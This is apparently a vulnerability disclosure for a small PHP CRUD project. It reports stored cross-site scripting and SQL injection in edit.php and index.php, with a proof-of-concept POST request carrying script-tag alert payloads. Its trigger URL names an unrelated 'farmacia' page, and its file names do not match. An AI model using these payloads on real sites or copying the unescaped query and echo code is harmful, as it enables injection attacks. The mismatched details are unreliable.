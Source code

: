 # simple-crud-functionality-in-php has Cross Site Scripting vulnerability in index.php

## supplier 
https://code-projects.org/simple-crud-functionality-in-php-with-source-code/
## Vulnerability file
index.php

## describe
there are unrestricted cross site scripting attacks and injection attacks in the simple-crud-functionality-in-php in index.php. The controllable parameters are as follows: descr parameter and title parameter. This function will execute the user parameter without restriction into the echo statement. Malicious attackers can exploit this vulnerability to obtain sensitive information from clients

**Code analysis**    

Line 21-36 in edit.php
```
if(isset($_POST['sub'])){

    if(isset($_POST['srno'])){
        $srno = $_POST['srno'];
        $newtitle = $_POST['newtitle'];
        $newdescr = $_POST['newdescr'];

        $sqledit = "UPDATE `crud`.`notes` SET `Sr.No` = $srno, `title` = '$newtitle', `descr` = '$newdescr', `Time` = NOW() WHERE `notes`.`Sr.No` = $srno;";

        mysqli_query($con, $sqledit);

        header("Location: ./index.php");

mysqli_close($con);
    }
}
```
Updating user's input directly into database without any restrictions.  
Line 63-73 in index.php
```
        echo " <tr>
        <td>".$row['Sr.No']."</td>
        <td>".$row['']."</td>
        <td>".$row['descr']."</td>
        <td>".$row['Time']."</td>
        <td>
         <a href='edit.php'><button name='edit' class='sub'>Edit</button></a>
             <a href='delete.php'><button type='submit' name='delete' class='sub'>Delete</button></a>
           
        </td>
    </tr>";
```
Querying data from the database use echo function to output, with the parameter descr and title not filtered, resulting in the execution of XSS statements.

## POC

```
POST /edit.php HTTP/1.1
Host: localhost:8081
Content-Length: 109
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Origin: http://localhost:8081
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8081/edit.php
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

srno=1&newtitle=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&newdescr=%3Cscript%3Ealert%282%29%3C%2Fscript%3E&sub=

```
For title parameter, the test payload is `<script>alert(1)</script>`  
For desrc parameter, the test payload is `<script>alert(2)</script>`  
Visit this URL to trigger the cross-site scripting vulnerability.

```
http://farmacia/adicionar-produto.php
```

**Result**

For parameter "title":  
![image-20241128083927477](https://raw.githubusercontent.com/LamentXU123/cve/refs/heads/main/assest/xss3.png)  
For parameter "descr":  
![image-20241128083927477](https://raw.githubusercontent.com/LamentXU123/cve/refs/heads/main/assest/xss3_2.png) 
